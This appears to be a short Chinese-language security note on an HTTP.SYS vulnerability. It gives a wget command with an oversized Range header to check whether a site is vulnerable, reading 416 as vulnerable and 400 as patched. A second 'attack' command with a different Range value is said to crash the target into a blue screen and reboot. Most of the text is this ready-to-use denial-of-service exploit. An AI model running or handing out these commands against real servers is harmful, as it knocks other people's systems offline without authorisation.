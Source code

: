 # HTTP.SYS

可以使用`wget`工具亦或发送特殊请求头的`HTTP`包

## wget

### 测试：

> 此方法一般不会造成目标宕机

`wget --header="Range: bytes=0-18446744073709551615" [站点的图片地址]`

如果`response_code`为`416`表示漏洞存在

如果`response_code`为`400`表示漏洞已修复

### 攻击

> 以下方法很有可能引起目标宕机，蓝屏重启：

`wget --header="Range: bytes=18-18446744073709551615" [站点的图片地址]`